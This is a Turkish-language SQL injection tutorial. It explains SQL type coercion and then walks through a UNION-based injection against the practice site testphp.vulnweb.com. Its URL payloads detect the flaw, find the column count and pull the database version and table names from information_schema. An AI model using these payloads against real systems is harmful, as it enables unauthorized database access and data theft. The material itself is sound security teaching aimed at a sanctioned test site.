








<h1 align="center">SQL Injection</h1>

# SQL Ne demek
* Bir veritabanında kullanılan proglamlama dilidir. Verileri yönetmek ve tasarlamak için kullanılır. 

# SQL Injection Ne Demek?
* Saldırganın web uygulamalarındaki SQL sorgularını kendi lehine kullanabilmesidir. Adı üstünde 'SQL Enjeksiyonu'.
    

# Bazı Temel SQL sorguları.
* Başlarken SQL'in temelini anlamak gerekiyor. Dilin temelinde nasıl çalıştığını anlamak SQL Injection'ı anlamaktır. Dolayısıyla burası önemli.
* Buradaki ana hedef bazı temel SQL mantığını anlamaktır.
    * Kullanılacak bazı ifadeler için ön bilgi:
        * 'SELECT' ifadesi veritabanından veri sorgulamak için kullanılır.
        * 'string' kavramı programlama dillerinde karakterlerden oluşan dizileri ifade eder. Genellikle karakterler tırnak içinde belirtilir. 'araba', '2121231' gibi. Farklı programlama dillerinde bunları belirtme biçimi değişebilir.
        * 'INT' ifadesi integer (tam sayı) ifade eder.


* Aşağıda SQL kodunun bazı sorgularını kullanacağız ve temel prensiplerin bir kısmını anlamaya çalışacağız.

    ```SQL 
    SELECT 1;
    1 --> integer sonuç.

    SELECT 2-1; --> sql veritabanı çıkarma işlemini tanıyor.
    1 --> integer sonuç.

    SELECT 2+1; --> sql veritabanı toplama işlemini tanıyor.
    3 --> integer sonuç.

    SELECT '2-1'; --> sql veritabanı string işlemini tanıyor.
    '2-1'  --> string sonuç.

    SELECT '2'-'1'; --> sql veritabanı string olarak belirtilen karakterleri tam sayıya(integer) dönüştürdü ve çıkarma işlemi yaptı.
    1 --> integer sonuç.

    SELECT '2'+'1';
    3

    SELECT '2'+'a'; --> veritabanı '2' stringini 2 sayısına(integer) dönüştürebiliyor ama aynı şeyi 'a' stringi için yapamıyor ve onu 0 olarak alıyor.
    2

    SELECT 'b'+'a'; --> veritabanı ikisini de sayıya dönüştüremiyor.
    0

    SELECT '2' '1'; --> veritabanı iki stringi de tam sayıya dönüştürüyor ve birleştiriyor.
    21

    SELECT '2' '1' 'a'; --> veritabanı burada herhangi bir matematik işlemi olmadığı için 'a' yı 0 olarak almadı ve sonuç direkt 21a oldu. 
    21a 

    SELECT '2' '1' 'a'-1; --> veritabanında 'a' bu sefer 0 olarak alındı çünkü matematik işlemi var ve 21-1 oldu ve sonuç 20. 
    20

    SELECT !1; --> !1 = 1(doğru) değil. Yani 0(yanlış).
    0


# Web Sitesi Üzerinden Uygulamalı SQL Injection

* Şimdi bir web uygulamasında SQL Injection olup olmadığını anlamayı ve SQL Injection varsa neler yapılabileceğini göreceğiz.
* http://testphp.vulnweb.com/categories.php bu web uygulaması alıştırma yapılabilmesi için test olarak geliştirilmiştir. Çalışırken bu kullanılacak.


* Kullanılacak bazı ifadeler için ön bilgi:
    * 'UNION SELECT' ifadesi 2 veya daha fazla SELECT sorgusunu tek bir sonuç olarak gösterir. Sorgusu yapılanların kolon(column) sayıları eşit olmalıdır yoksa bu sorgu çalışmaz.
    * 'column' ifadesi uygulamalardaki kolonları ifade eder.

* Verilen web sitesine girdikten sonra 'Browse Categories' kısmına gelip 'Posters' sekmesine tıklıyoruz ve şöyle bir ekran çıkıyor:

    

* Burada SQL Injection tespit etmek için bir fırsat var. 'http://testphp.vulnweb.com/listproducts.php?cat=1' adresinin son kısmını 'http://testphp.vulnweb.com/listproducts.php?cat=2-1' olarak değiştirdiğinizde yine aynı siteye girdiğimizi göreceğiz: (Yukarıdaki temel bilgilerde SELECT 2-1; 1 sonucunu veriyordu.)

    
    * Bu durumda SQL Injection olduğunu söyleyebiliriz. İşlemlerimize SQL Injection olduğundan emin olduktan sonra devam ediyoruz. 


* 'http://testphp.vulnweb.com/listproducts.php?cat=1' Bu sekmenin aynısından bir tane daha açıyoruz ve arama kısmındaki  sorgusunun sonuna 1 yerine 2 yazıyoruz ve bu ekran çıkıyor:

    


* Ana sekmemizde (http://testphp.vulnweb.com/listproducts.php?cat=1) yazan yerin son kısmını (http://testphp.vulnweb.com/listproducts.php?cat=1 UNION SELECT 1) olarak değiştirip enter'a basıyoruz ve şöyle bir ekranla karşılaşıyoruz:

    

* Gelen bu uyarı aslında bize bir yol haritası çiziyor. 'Error: The used SELECT statements have a different number of columns' uyarısı '1 UNION SELECT 1' sorgularından getirilen kolon(column) sayılarının eşleşmediğini söylüyor. Eşleşmeme nedeni ise UNION SELECT sorgusunun çalışması için sorguladıklarının kolon sayısının eşit olmayışıdır.

        ```SQL
            SELECT 1; --> sonucu 1 verir ama aynı zamanda 1 kolon getirir.
            1

* Bunun önüne geçmek için 'http://testphp.vulnweb.com/listproducts.php?cat=1%20UNION%20SELECT%201' adresimizi 'http://testphp.vulnweb.com/listproducts.php?cat=1%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11' olarak değiştiriyoruz. Burada amacımız aynı kolon sayısını bulmak bu yüzden sorgularımızı arttırıyoruz. Ekranımız yine geliyor. 'NOT: SQL INJECTION YOKSA HİÇ BİR ZAMAN KOLONLARI BULAMAZSIN. ÖNCE TESPİT SONRA ENJEKSİYON'


* referans sayfamızın(http://testphp.vulnweb.com/listproducts.php?cat=1) ve ana sayfamızın(http://testphp.vulnweb.com/listproducts.php?cat=1%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11) en altına iniyoruz ve bir farklılık görüyoruz.

Ana Sayfa:
       

Referans Sayfası:
    

* Ana sayfadaki en son kısımda 7 2 9 sayılarını görme sebebimiz aslında adresimizde kolon sayılarının o noktalarda eşleştiğini gösteriyor. Dolayısıyla 7 2 veya 9 olan kısımlarda biz manipülasyon yapabiliyoruz:

* 'http://testphp.vulnweb.com/listproducts.php?cat=1%20UNION%20SELECT%201,2,3,4,5,6,version(),8,9,10,11' 7 yerine versiyon yazdık ve 7 yazan yerde artık version bilgisini alıyoruz.

    ARTIK VERİ ÇIKARTMAYA BAŞLADIK
    

* Şimdi veri ekranımızı biraz daha temiz hale getirebiliriz. 'http://testphp.vulnweb.com/listproducts.php?cat=-9999999%20UNION%20SELECT%201,2,3,4,5,6,version(),8,9,10,11' adresimizde '='den sonra gelen yere '-9999999' yazarsak önceki kolonlardan kurtulmuş oluyoruz ve daha temiz bir görüntü elde ediyoruz:

    
    * Bunun olma sebebi aslında biz 'http://testphp.vulnweb.com/listproducts.php?cat=1' sondaki id'yi değiştirmiş olduk. Onu çok büyük bir sayıyla değiştirdiğimiz vakit veriler kayboluyor. Yani referans sitesindekiyle de değişsek yine kolonlardaki veriler kaybolacak.

* 'http://testphp.vulnweb.com/listproducts.php?cat=-9999999%20UNION%20SELECT%201,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema = database()' web adresini bu şekilde değiştiğimizde farklı bir veri akışı sağlayacağız. Buradaki 'FROM information_schema.tables WHERE table_schema = database()' sorguda aslında SQL'e ait sorguları kullanarak sitedeki kolon isimlerinin verisini çekebiliyoruz. Ve bu veriyi 7. sorgunun yerine table_name yazarak çekiyoruz.

türkçesi gibi: 
'FROM information_schema.tables WHERE table_schema = database()' = table_schema'nın veritabanına eşit olduğu yerden information_schema.tables'ı getir. Ve bu gelen bilgi de 7. sorgunun yerinde gösteriliyor çünkü oraya table_name yazdık.

YENİ ÇEKTİĞİMİZ VERİLERİ:
    